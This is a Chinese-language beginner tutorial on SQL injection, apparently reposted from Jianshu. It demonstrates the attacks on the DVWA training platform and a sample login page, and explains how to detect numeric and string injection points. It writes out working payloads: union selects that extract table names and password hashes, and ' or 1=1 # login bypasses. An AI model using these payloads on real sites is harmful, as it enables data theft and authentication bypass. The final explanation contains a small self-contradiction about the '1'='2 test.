摘自：`<https://www.jianshu.com/p/078df7a35671>`


## Sql 注入漏洞详解

### Sql 注入产生原因及威胁

刚刚讲过当我们访问动态网页时, Web 服务器会向数据访问层发起 Sql 查询请求，如果权限验证通过就会执行 Sql 语句。
 这种网站内部直接发送的Sql请求一般不会有危险，但实际情况是很多时候需要**结合**用户的输入数据动态构造 Sql 语句，如果用户输入的数据被构造成恶意 Sql 代码，Web 应用又未对动态构造的 Sql 语句使用的参数进行审查，则会带来意想不到的危险。

Sql 注入带来的威胁主要有如下几点

- 猜解后台数据库，这是利用最多的方式，盗取网站的敏感信息。
- 绕过认证，列如绕过验证登录网站后台。
- 注入可以借助数据库的存储过程进行提权等操作

### Sql 注入示例一.猜解数据库

接下来我们通过一个实例，让你更加清楚的理解 **Sql 注入猜解数据库**是如何发生的。
 使用DVWA渗透测试平台，作为攻击测试的目标：




先输入 1 ，查看回显 (URL中ID=1，说明php页面通过get方法传递参数)：




那实际上后台执行了什么样的Sql语句呢？点击 `view source`查看源代码 ，其中的SQL查询代码为：

```sql
$query = "select first_name, last_name FROM users WHERE user_id = '$id';"
```

可以看到，实际执行的Sql语句是：

```bash
SELECT first_name, last_name FROM users WHERE user_id = '1';
```

我们是通过控制参数Id的值来返回我们需要的信息。如果我们不按常理出牌，比如在输入框中输入 `1' order by 1#`，实际执行的Sql语句就会变成:

```csharp
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1#`;
(按照Mysql语法，#后面会被注释掉，使用这种方法屏蔽掉后面的单引号，避免语法错误)
```

这条语句的意思是查询users表中user_id为1的数据并按第一字段排行。

输入 `1' order by 1#`和 `1' order by 2#`时都返回正常：







当输入 `1' order by 3#`时，返回错误：



**由此可知，users表中只有两个字段，数据为两列。**

**接下来我们使用 union select联合查询继续获取信息。**

 union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同，而我们之前已经知道了主查询列数为 2，接下来就好办了。
 输入`1' union select database(),user()#`进行查询 ：

- database()将会返回当前网站所使用的数据库名字.
- user()将会返回执行当前查询的用户名.

实际执行的Sql语句是 :

```csharp
SELECT first_name, last_name FROM users WHERE user_id = '1' union select database(),user()#`;
```





通过上图返回信息，我们成功获取到：

- 当前网站使用数据库为 dvwa .
- 当前执行查询用户名为 root@localhost .

同理我们再输入 `1' union select version(),@@version_compile_os#`进行查询：

- version() 获取当前数据库版本.
- @@version_compile_os 获取当前操作系统。

实际执行的Sql语句是:

```csharp
SELECT first_name, last_name FROM users WHERE user_id = '1' union select version(),@@version_compile_os#`;
```





通过上图返回信息，我们又成功获取到：

- 当前数据库版本为 : 5.6.31-0ubuntu0.15.10.1.
- 当前操作系统为 : debian-linux-gnu

接下来我们尝试获取 dvwa 数据库中的表名。
 `information_schema` 是 mysql 自带的一张表，这张数据表保存了 Mysql 服务器所有数据库的信息,如数据库名，数据库的表，表栏的数据类型与访问权限等。该数据库拥有一个名为 tables 的数据表，该表包含两个字段 table_name 和 table_schema，分别记录 DBMS 中的存储的表名和表名所在的数据库。

我们输入`1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`进行查询：
 实际执行的Sql语句是：

```csharp
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;
```





通过上图返回信息，我们再获取到：

- dvwa 数据库有两个数据表，分别是 guestbook 和 users .

**有些同学肯定还不满足目前获取到的信息，那么我们接下来尝试获取重量级的用户名、密码。**
 由经验我们可以大胆猜测users表的字段为 user 和 password ，所以输入：`1' union select user,password from users#`进行查询：
 实际执行的 Sql 语句是：

```csharp
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;
```





可以看到成功爆出用户名、密码，密码采用 md5 进行加密，可以到`www.cmd5.com`进行解密。
 直此，同学们应该已经对 Sql 注入有了一个大概得了解，也清楚了 Sql 注入的强大。

### Sql 注入实例二.验证绕过

接下来我们再试试另一个利用 **Sql 漏洞绕过登录验证**的实例。
 使用事先编写好的页面，这是一个普通的登录页面，只要输入正确的用户名和密码就能登录成功。





我们先尝试随意输入用户名 123 和密码 123 登录：





从错误页面中我们无法获取到任何信息。
 看看后台代码如何做验证的：

```sql
$sql="select * from users where username='$name' and password='$pwd'";
```


实际执行的操作时：

```csharp
select * from users where username='123' and password='123'
```

当查询到数据表中存在同时满足 username 和 password 字段时，会返回登录成功。
 按照第一个实例的思路，我们尝试在用户名中输入 `123' or 1=1 #`, 密码同样输入 `123' or 1=1 #` ：








为什么能够成功登陆呢？因为实际执行的语句是：

```csharp
select * from users where username='123' or 1=1 #' and password='123' or 1=1 #'
```

按照 Mysql 语法，# 后面的内容会被忽略，所以以上语句等同于（实际上密码框里不输入任何东西也一样）：

```csharp
select * from users where username='123' or 1=1 
```

由于判断语句 or 1=1 恒成立，所以结果当然返回真，成功登录。
 我们再尝试不使用 # 屏蔽单引号，采用手动闭合的方式：
 我们尝试在用户名中输入 `123' or '1'='1`, 密码同样输入 `123' or '1'='1` （不能少了单引号，否则会有语法错误）：






实际执行的 Sql 语句是：

```php
select * from users where username='123' or '1'='1' and password='123' or '1'='1
```

看到了吗？两个 or 语句使 and 前后两个判断永远恒等于真，所以能够成功登录。

还有很多其他 Mysql 语句可以巧妙的绕过验证，同学们可以发散自己的思维进行尝试。

## 判断 Sql 注入点

通常情况下，可能存在 Sql 注入漏洞的 Url 是类似这种形式 ：`http://xxx.xxx.xxx/abcd.php?id=XX`
 对 Sql 注入的判断，主要有两个方面：

- 判断该带参数的 Url 是否存在 Sql 注入？
- 如果存在 Sql 注入，那么属于哪种 Sql 注入？

可能存在 Sql 注入攻击的 ASP/PHP/JSP 动态网页中，一个动态网页中可能只有一个参数，有时可能有多个参数。有时是整型参数，有时是字符串型参数，不能一概而论。总之只要是带有参数的 动态网页且此网页访问了数据库，那么就有可能存在 Sql 注入。如果程序员没有足够的安全意识，没有进行必要的字符过滤，存在SQL注入的可能性就非常大。

### 判断是否存在 Sql 注入漏洞

最为经典的**单引号判断法**：
 在参数后面加上单引号,比如:

```cpp
http://xxx/abc.php?id=1'
```

如果页面返回错误，则存在 Sql 注入。
 原因是无论字符型还是整型都会因为单引号个数不匹配而报错。
 （如果未报错，不代表不存在 Sql 注入，因为有可能页面对单引号做了过滤，这时可以使用判断语句进行注入，因为此为入门基础课程，就不做深入讲解了）

### 判断 Sql 注入漏洞的类型

通常 Sql 注入漏洞分为 2 种类型：

- 数字型
- 字符型

其实所有的类型都是根据数据库本身表的类型所产生的，在我们创建表的时候会发现其后总有个数据类型的限制，而不同的数据库又有不同的数据类型，但是无论怎么分**常用**的查询数据类型总是以数字与字符来区分的，所以就会产生注入点为何种类型。




#### 数字型判断：

当输入的参 x 为整型时，通常 abc.php 中 Sql 语句类型大致如下：
 `select * from <表名> where id = x`
 这种类型可以使用经典的 `and 1=1` 和 `and 1=2` 来判断：

- 1. Url 地址中输入 `http://xxx/abc.php?id= x and 1=1` 页面依旧运行正常，继续进行下一步。
- 1. Url 地址中继续输入 `http://xxx/abc.php?id= x and 1=2` 页面运行错误，则说明此 Sql 注入为数字型注入。

原因如下：
 当输入 `and 1=1`时，后台执行 Sql 语句：

```csharp
select * from <表名> where id = x and 1=1 
```

没有语法错误且逻辑判断为正确，所以返回正常。

当输入 `and 1=2`时，后台执行 Sql 语句：

```csharp
select * from <表名> where id = x and 1=2
```

没有语法错误但是逻辑判断为假，所以返回错误。
 我们再使用假设法：如果这是字符型注入的话，我们输入以上语句之后应该出现如下情况：

```csharp
select * from <表名> where id = 'x and 1=1' 
select * from <表名> where id = 'x and 1=2' 
```

查询语句将 and 语句全部转换为了字符串，并没有进行 and 的逻辑判断，所以不会出现以上结果，故假设是不成立的。

#### 字符型判断：

当输入的参 x 为字符型时，通常 abc.php 中 SQL 语句类型大致如下：
 `select * from <表名> where id = 'x'`
 这种类型我们同样可以使用 `and '1'='1` 和 `and '1'='2`来判断：

- 1. Url 地址中输入 `http://xxx/abc.php?id= x' and '1'='1` 页面运行正常，继续进行下一步。
- 1. Url 地址中继续输入 `http://xxx/abc.php?id= x' and '1'='2` 页面运行错误，则说明此 Sql 注入为字符型注入。

原因如下：
 当输入 `and '1'='1`时，后台执行 Sql 语句：

```csharp
select * from <表名> where id = 'x' and '1'='1'
```

语法正确，逻辑判断正确，所以返回正确。

当输入  `and '1'='2`时，后台执行 Sql 语句：

```csharp
select * from <表名> where id = 'x' and '1'='2'
```

语法正确，但逻辑判断错误，所以返回正确。同学们同样可以使用假设法来验证。

